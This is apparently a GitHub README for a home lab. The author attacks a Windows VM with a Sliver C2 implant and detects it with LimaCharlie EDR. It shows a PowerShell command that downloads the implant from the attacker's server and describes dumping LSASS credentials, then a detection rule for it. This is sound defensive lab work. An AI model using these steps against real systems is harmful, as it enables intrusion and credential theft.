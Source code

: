 # LimaCharlie-EDR-Lab
![Architecture](https://i.imgur.com/6mftsEk.jpg)

## Introduction

I simulated a real-life cyber attack scenario and tested the effectiveness of my security measures. I created two virtual machines on a NatNetwork: an Ubuntu Server acting as the attacker, and a Windows 11 machine as the victim.

To enhance the security of the victim machine, I installed LimaCharlie sensor and Sysmon, which helped me detect any potential attacks or security events. On the Ubuntu Server, I installed Silver C2, a command and control attack tool for Windows machines.

To test my security measures, I executed the C2 attack and created detection rules to alert administrators of any suspicious activity. This lab project aimed to demonstrate the importance of having robust security measures in place to protect against cyber attacks.


The architecture of the project consists of the following components:


- Virtual Box NatNetwork
- Virtual Machines (1 windows, 1 linux)
- LimaCharlieEDR
- Silver C2 Server

## Labbing

After environment is set up I created a implant on the Ubuntu server to install on to the Windows System

![Implant](https://i.imgur.com/LEP0qSk.png)

Next I created quick websever on the Ubuntu machine for the C2 Payload to be installed from, then I ran this command on the Windows device.

![IWR](https://i.imgur.com/dadsDeX.png)

Command: IWR -Uri http://[IpAddress]/[ImplantName] -Outfile [FileLocation]


After downloading the implant we need to run the malicious file 


![Excute](https://i.imgur.com/mkdYQkp.png)

## After Implant is installed on Victum

We can run some commands inside the sliver-server session itself. 

Jumping inside our our session we can run some commands to identify the device we are on.

Whoami - Hostname

Netstat - Network connections

ps -T - Process Tree (sliver Highlights green its own files)

![Tree](https://i.imgur.com/CfmWUyF.png)


## Inside LimaCharlie EDR

After installing the malicious file we should be able to see this inside of our EDR soultion.

First thing to look at is going to be the processes running. After looking around for some time we see this file that does not have a signature(yellow)

![process](https://i.imgur.com/Pts6px0.png)

After finding that process we can go see that this file location is inside the Downloads folder of a user called Victum so we can locate this inside the filesystem section of LimaCharlie

![filesystem](https://i.imgur.com/ksRCp3P.png)

Now we are going to look at the timeline and go through and see what is going on when this file was installed. 

![timeline](https://i.imgur.com/jYVSaNr.png)

We can see that there is a Network Connetion created and the file in question is COMPLEX_BELL the malicious file. 

Usually a next step would be gathering the hash of the file and running this through VirusTotal but when doing this, VirusTotal returns nothing. This indicates that the attacker crafted this file themselves.  

## Credential Grabbing

For attackers getting access to more than one account is critical. A way to do this is gathering creditals from the file lsass.exe. This file holds usernames, passwords and security tokens.

To learn more about LSASS Credential Dumping refer to [Mitre](https://attack.mitre.org/techniques/T1003/001/)

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

Running this command will copy the contents of the lsass file and dump it inside of the attackers host. 

To detect this method of Credential Grabbing we will write a detection rule to detect this technique. 

In LimaCharlie we can enter this detection rule: 

![lsass-detection-rule](https://i.imgur.com/6bDKczs.png)

This rule will detect any interaction with the lsass file. So this could cause a lot of False Postives if administrators are using this file. But for this lab it is a good rule since we dont have any actual users. 

Now if we run the lsass dump command again

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

We will be able to detect it inside of LimaCharlie

[Lima-Detections](https://i.imgur.com/mCsvF9u.png)



